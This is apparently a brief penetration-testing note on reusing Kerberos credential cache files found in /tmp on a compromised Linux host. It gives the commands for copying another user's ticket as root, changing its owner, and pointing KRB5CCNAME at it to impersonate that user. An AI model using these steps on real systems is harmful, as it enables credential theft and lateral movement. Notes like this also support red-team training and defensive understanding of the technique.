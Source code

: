 # Credential Cache Files

## Credential Cache Files

* compromise a logged user and use his tickets
*   ccached files :

    &#x20;→ located in /tmp

![](<../../../../../.gitbook/assets/image (218).png>)

### **Copy the ticket**

{% hint style="warning" %}
**Tickets are only readable by his owner. Not an issue if the box is rooted.**
{% endhint %}

```csharp
sudo cp krb5cc_581000500_gC90OC krb5cc_581000500_testme
chown homer_potter."Domain Users" krb5cc_581000500_testme
```

### **Set the ENV variable**

```csharp
kdestroy
export KRB5CCNAME=/tmp/krb5cc_581000500_testme
```

![](<../../../../../.gitbook/assets/image (29) (1).png>)
